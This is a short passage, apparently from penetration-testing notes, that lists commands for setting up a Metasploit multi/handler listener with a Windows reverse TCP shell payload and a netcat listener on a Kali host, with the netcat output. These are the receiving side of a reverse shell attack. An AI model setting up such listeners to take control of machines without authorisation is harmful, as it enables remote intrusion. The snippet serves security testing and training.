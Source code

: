 ### Metasploit multi/handler listener
	
	use exploit/multi/handler
	
	msf exploit(multi/handler) > set payload windows/shell/reverse_tcp
	
	msf exploit(multi/handler) > set lhost 192.168.1.109
	
	msf exploit(multi/handler) > set lport 1234
	
	msf exploit(multi/handler) > exploit

### Netcat listener (unstaged payload)

	root@kali:~# nc -nvlp 80
	
	nc: listening on :: 80 ...
	
	nc: listening on 0.0.0.0 80 ...